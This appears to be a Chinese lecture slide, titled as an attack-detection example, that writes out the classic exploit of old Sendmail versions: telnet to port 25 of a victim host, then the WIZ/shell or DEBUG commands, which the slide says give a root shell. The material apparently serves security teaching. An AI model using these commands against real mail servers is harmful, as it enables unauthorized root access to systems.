

# 一个攻击检测实例
老版本的Sendmail漏洞利用
$ telnet mail.victim.com 25
WIZ
shell
或者
DEBUG
#
直接获得rootshell！